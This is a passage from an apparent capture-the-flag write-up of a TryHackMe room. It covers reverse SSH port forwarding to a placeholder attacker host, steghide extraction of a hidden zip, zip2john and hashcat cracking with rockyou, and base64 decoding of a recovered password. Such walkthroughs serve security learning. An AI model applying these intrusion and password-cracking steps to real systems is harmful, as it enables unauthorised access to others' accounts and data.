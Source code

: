 My initial thought was steganography in the hacker image, there are lots of ways I could have copied the images to my attack machine however I could see the webpage was being hosted locally on port 9001 so I used SSH to tunnel the port so I could access the webpage.

```highlight
$ netstat -ntlp                                                                                 
netstat -ntlp                                                                                   
(Not all processes could be identified, non-owned process info                                  
 will not be shown, you would have to be root to see it all.)                                   
Active Internet connections (only servers)                                                      
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::21                   :::*                    LISTEN      -               
```

On the 'victim' machine I issued the command 'ssh -N -R ATTACKERVMIP:9001:127.0.0.1:9001 daz@ATTACKERVMIP'. Now on my attack VM I could web browse to 127.0.0.1:9001 and get access to the login page.

![login](/assets/images/chillhack/login.png)

I logged in with aurick credentials.

![9001](/assets/images/chillhack/9001.png)

Now its simple to just right click and download the hacker image to my machine.  Now the image in on my machine and check for any hidden files.

```highlight
└──╼ $steghide extract -sf hacker-with-laptop_23-2147985341.jpg
Enter passphrase:                                              
wrote extracted data to "backup.zip".                          
```
Using steghide I was able to extract a zip file. However the zip file was password protected.

```highlight
└──╼ $/usr/sbin/zip2john backup.zip > ziphash
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: 2b chk, TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3
```

Using zip2john I was able to generate the password hash. I extracted the hash from the ziphash output and put in to a new file called newzip. and used the hashcat to crack: hashcat -m 17200 newzip /usr/share/wordlists/rockyou.txt --force

The password cracked successfully, I used the password to unzip the file and got source_code.php. Within the source code was a base64 encoded password.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/ChillHack]
└──╼ $echo IWQwbnRLbjB3bREDACTED | base64 -d
<hidden>
```
